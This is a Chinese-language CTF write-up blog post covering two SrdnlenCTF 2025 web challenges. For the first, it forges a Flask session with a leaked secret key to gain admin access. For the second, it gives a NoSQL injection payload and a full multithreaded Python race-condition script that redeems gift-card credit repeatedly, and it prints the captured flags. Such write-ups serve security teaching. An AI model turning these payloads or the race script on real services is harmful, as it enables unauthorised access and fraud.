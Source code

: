 ```yaml
---
title: SrdnlenCTF 2025
subtitle:
date: 2025-01-23T22:34:19+08:00
slug: srdnlen-ctf-2025
draft: false
author: 
  name: M1ng2u
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - CTF
categories:
  - CTF
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: true
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


# srdnlen

## web

### Ben 10

题目描述说 Ben 10 有好东西，但是注册账号后发现不让访问

附件中的 app.py 给出了 app.secret_key = 'your_secret_key'

把 jwt 用 flask-session-cookie-manager 解密，发现只有 username

![m63nh67z.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cfd4f54791.png)

从 app.py 中可以看到注册用户时也一起注册了一个对应的 admin 用户

```py
@app.route('/register', methods=['GET', 'POST'])
def register():
    admin_username = f"admin^{username}^{secrets.token_hex(5)}"
    cursor.execute("INSERT INTO users (username, password, admin_username) VALUES (?, ?, ?)",
                           (admin_username, admin_password, None))
    conn.commit()
```

而 admin_username 在 /home 中显示

![m63nkpbe.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cfdf3f35a2.png)

所以进行 session 伪造

![m63nntuw.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cfe85f3d47.png)

GET /image/ben10 ，拿到 flag

![m63nsvou.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cff71b7ebf.png)

> srdnlen{b3n_l0v3s_br0k3n_4cc355_c0ntr0l_vulns}

### Focus. Speed. I am speed.

群里师傅说打 nosql + 竞争，那我就照着打了qwq

![m63oa7cc.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678d0299e048f.png)

应该要买第4个，50 points

![m63ocvz8.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678d0317070ee.png)

网页都访问一遍，发现在 GET /redeem?discountCode=xxx 有查询

翻一下代码，顺着找到：

routes.js

```javascript
const discount = await DiscountCodes.findOne({discountCode})
```

discountCodes.js

```javascript
const DiscountCodeSchema = new mongoose.Schema({
    discountCode: {
        type: String,
        default: null, // Optional field for discount codes
    },
    value: {
        type: Number,
        default: 10
    }
})

module.exports = mongoose.model('DiscountCodes', DiscountCodeSchema)
```

注一下试试看，确实可以

![m63pxcd8.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678d0d6126433.png)

但是礼品卡说是一天只能兑换一次，找代码

routes.js

```javascript
// Check if the voucher has already been redeemed today
        const today = new Date();
        const lastRedemption = user.lastVoucherRedemption;

        if (lastRedemption) {
            const isSameDay = lastRedemption.getFullYear() === today.getFullYear() &&
                              lastRedemption.getMonth() === today.getMonth() &&
                              lastRedemption.getDate() === today.getDate();
            if (isSameDay) {
                return res.json({success: false, message: 'You have already redeemed your gift card today!' });
            }
        }

        // Apply the gift card value to the user's balance
        const { Balance } = await User.findById(req.user.userId).select('Balance');
        user.Balance = Balance + discount.value;
        // Introduce a slight delay to ensure proper logging of the transaction 
        // and prevent potential database write collisions in high-load scenarios.
        new Promise(resolve => setTimeout(resolve, delay * 1000));
        user.lastVoucherRedemption = today;
        await user.save();
```

在保存之前，setTimeout(delay * 1000 ms)，所以我们通过并发请求访问 balance 来制造竞争条件

一直 buy 第一辆🚗，然后重复兑换礼品卡

```py
import time
import requests
import threading
import json

url = "http://speed.challs.srdnlen.it:8082"

# 账号注册
url_register = f"{url}/register-user"
data_user = {"username": "mingzuxxxxxxxxxxxxxxx", "password": "123"}
try:
    response = requests.post(url_register, json=data_user)
    jwt = response.headers["Set-Cookie"].split(";")[0].split("=")[1]
    print(jwt)
except Exception as e:
    print(e)

# 竞争
url_store = f"{url}/store"
headers = {'Cookie': f'jwt={jwt}',}
data_buy = {"productId": 1}

def send_request():
    try:
        response = requests.post(url_store, headers=headers, json=data_buy)
        # print(f"Status Code: {response.status_code}, Response Text: {response.text}")
    except Exception as e:
        print(f"Request failed: {e}")

def send_requests():
    while True:
        send_request()

def race(thread_num):
    threads = []
    for _ in range(thread_num):
        thread = threading.Thread(target=send_requests)
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()

# 偷点数
url_redeem = f"{url}/redeem?discountCode[$ne]=1"

def steal_points():
    while True:
        try:
            response = requests.get(url_redeem, headers=headers)
            # print(f"Status Code: {response.status_code}, Response Text: {response.text}")
            if json.loads(response.text)["success"]:
                print(f"Steal Points Successfully: {json.loads(response.text)["message"]}")
        except Exception as e:
            print(f"Request failed: {e}")

def steal_points_rapidly(thread_num):
    threads = []
    for _ in range(thread_num):
        thread = threading.Thread(target=steal_points)
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()

# steal_points()

# 执行
def execute():
    thread_race = threading.Thread(target=race, args=(100,))
    thread_steal = threading.Thread(target=steal_points_rapidly, args=(100,))

    thread_race.start()
    time.sleep(1)
    thread_steal.start()

execute()
```

![m63t610z.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/20/678d22a51cff7.png)

拿到 60 points ，买到辣

![m63t79zl.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/20/678d22df872ca.png)

> srdnlen{6peed_1s_My_0nly_Competition}
